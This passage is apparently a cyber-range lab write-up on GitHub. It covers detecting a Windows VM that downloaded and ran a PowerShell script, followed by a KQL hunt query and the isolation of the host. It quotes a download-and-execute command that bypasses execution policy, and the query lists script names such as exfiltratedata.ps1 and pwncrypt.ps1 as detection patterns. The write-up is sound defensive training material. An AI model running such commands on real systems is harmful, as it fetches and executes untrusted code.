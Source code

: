 
## 🧩 Observed Malicious Behavior
After deploying the analytic rule, a detection was triggered when one of the virtual machines downloaded a **suspicious PowerShell script** using `Invoke-WebRequest`.

### **Detected Commands**
```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1' -OutFile 'C:\programdata\eicar.ps1';
powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';
```

**Summary:**  
The host downloaded a PowerShell script from GitHub (`eicar.ps1`) and executed it locally from the `C:\ProgramData` directory — a common pattern for malware staging.

---

## 🧾 Verification – Check for Executed Scripts
A follow-up query was used to determine whether any downloaded scripts were executed on the same host.

```kql
let targetDeviceName = "windows-10-emra";
let scriptName = dynamic(["eicar.ps1","exfiltratedata.ps1","portscan.ps1","pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == targetDeviceName
| where FileName == "powershell.exe"
| where ProcessCommandLine has_any (scriptName) and ProcessCommandLine contains "-File"
| order by TimeGenerated
| project TimeGenerated, AccountName, ActionType, DeviceName, ProcessCommandLine, FileName
```
<img width="1715" height="603" alt="image" src="https://github.com/user-attachments/assets/f77fcbb5-d9b7-47fb-9620-c90107cbdb8d" />

### **Results**
Three executions of PowerShell were detected running the suspicious scripts:
```
2025-10-30T15:29:10.349735Z  
2025-10-30T15:33:29.6862858Z  
2025-10-30T15:45:48.7271427Z
```

**Action Taken:**  
The virtual machine (`windows-10-emra`) was immediately **isolated** from the network to prevent further spread.  
While isolated, a **full antimalware scan** was initiated within **Microsoft Defender for Endpoint (MDE)** to verify whether any malicious payloads or persistence mechanisms were present.

---

## ⚔️ MITRE ATT&CK Mapping
